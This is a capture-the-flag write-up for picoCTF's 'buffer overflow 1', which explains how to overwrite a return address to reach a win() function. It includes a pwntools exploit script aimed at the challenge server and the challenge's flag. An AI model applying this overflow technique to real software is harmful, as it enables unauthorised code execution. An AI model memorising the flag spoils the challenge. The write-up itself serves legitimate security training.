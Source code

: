 # buffer overflow 1

Control the return address [vuln](./vuln.c).

Author: Sanjay C / Palash Oswal

200 Points

---
## Solution

This is a very straight forward buffer overflow problem where we must control the return address of the function to access a different function in the program. The first thing we can do is run the program through GDB and `break main`. We can then `info functions | grep win` to see the list of functions in the binary and see the `win()` condition is at `0x080491f6`.

We can also see that there is an expected user buffer of fixed length, so that means we can write past that buffer and control the return address. It's as simple as putting those two together, but writing the entire buffer up to the return address, and then putting in the `win()` address in litle-endian format.

Here's my code in my [exploit.py](./exploit.py):
```Python
from pwn import *

# Address of win() is 0x080491f6
buffer = (b"A" * 44) + b"\xf6\x91\x04\x08"

io = remote('saturn.picoctf.net', 52595)

io.sendline(buffer)
output = io.recvall()
print(output.decode())

io.close()
```

---
## Flag
```
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}
```